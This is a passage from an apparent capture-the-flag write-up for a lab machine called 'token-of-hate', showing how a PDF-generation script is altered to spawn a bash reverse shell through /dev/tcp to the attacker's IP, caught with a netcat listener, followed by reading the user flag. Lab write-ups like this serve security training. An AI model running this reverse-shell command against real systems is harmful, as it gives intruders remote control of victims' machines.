 We download another PDF, and we achieve command execution as user `ctesias`.

![alt text](../../assets/images/token-of-hate/image-15.png)

We modify the first variable `command` in our `script.js` to place our attacker machine’s IP address:

```javascript
var command = "bash -c 'bash -i >& /dev/tcp/192.168.1.181/12345 0>&1'";
```

We listen with netcat on port `12345`, then create another PDF document.

```bash
$ nc -lvnp 12345
listening on [any] 12345 ...
connect to [192.168.1.181] from (UNKNOWN) [192.168.1.117] 40170
bash: no se puede establecer el grupo de proceso de terminal (497): Función ioctl no apropiada para el dispositivo
bash: no hay control de trabajos en este shell
ctesias@tokenofhate:/$ 
```

We successfully get into the victim machine as `ctesias`.

![alt text](../../assets/images/token-of-hate/image-16.png)

We read the user.txt flag.

```bash
tesias@tokenofhate:~$ cat user.txt
cat user.txt
98XXXXXXXXXXXXXXXXXXXXXXXXXXXXa3
```
